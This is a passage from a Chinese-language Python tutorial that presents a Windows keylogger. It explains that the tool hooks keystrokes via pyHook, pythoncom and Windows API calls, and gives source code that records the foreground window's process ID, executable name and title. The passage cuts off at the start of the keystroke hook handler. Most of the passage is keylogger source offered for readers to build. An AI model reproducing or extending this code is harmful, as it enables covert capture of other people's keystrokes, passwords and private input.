 如果觉得麻烦，你可以直接使用集成了所有我们所需要的 python 库的商业版 Activepython（我们可以用他的免费版）：

http://www.activestate.com/activepython

## 0x01 键盘记录器

* * *

说起 Keylogger，大家的思维可能早已飞向带有 wifi 功能的 mini 小硬件去了。抛开高科技，我们暂且回归本质，探探简易键盘记录器的原理与实现。

Python keylogger 键盘记录的功能的实现主要利用了 pythoncom 及 pythonhook，然后就是对 windows API 的各种调用。Python 之所以用起来方便快捷，主要归功于这些庞大的支持库，正所谓“人生苦短，快用 Python”。

代码部分：

```
# -*- coding: utf-8 -*-  
from ctypes import *
import pythoncom
import pyHook
import win32clipboard

user32 = windll.user32
kernel32 = windll.kernel32
psapi = windll.psapi
current_window = None

# 
def get_current_process():

    # 获取最上层的窗口句柄
    hwnd = user32.GetForegroundWindow()

    # 获取进程 ID
    pid = c_ulong(0)
    user32.GetWindowThreadProcessId(hwnd,byref(pid))

    # 将进程 ID 存入变量中
    process_id = "%d" % pid.value

    # 申请内存
    executable = create_string_buffer("\x00"*512)
    h_process = kernel32.OpenProcess(0x400 | 0x10,False,pid)

    psapi.GetModuleBaseNameA(h_process,None,byref(executable),512)

    # 读取窗口标题
    windows_title = create_string_buffer("\x00"*512)
    length = user32.GetWindowTextA(hwnd,byref(windows_title),512)

    # 打印
    print 
    print "[ PID:%s-%s-%s]" % (process_id,executable.value,windows_title.value)
    print 

    # 关闭 handles
    kernel32.CloseHandle(hwnd)
    kernel32.CloseHandle(h_process)

# 定义击键监听事件函数
def KeyStroke(event):

    global current_window

    # 检测目标窗口是否转移(换了其他窗口就监听新的窗口)
    if event.WindowName != current_window:
```